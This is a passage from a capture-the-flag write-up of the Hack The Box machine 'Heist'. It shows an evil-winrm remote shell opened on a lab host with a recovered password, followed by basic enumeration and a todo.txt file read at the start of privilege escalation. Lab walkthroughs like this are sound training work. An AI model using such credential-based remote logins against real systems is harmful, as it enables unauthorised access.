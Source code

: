 ```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ evil-winrm -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.129.96.157

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
       
*Evil-WinRM* PS C:\Users\Chase\Documents> hostname
SupportDesk
```

We can now grab the user.txt flag:

![htb_heist_user_flag.png](../assets/heist_assets/htb_heist_user_flag.png)

### Privilege Escalation

Lets take a look at todo.txt on chase's Desktop:

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> cat todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```
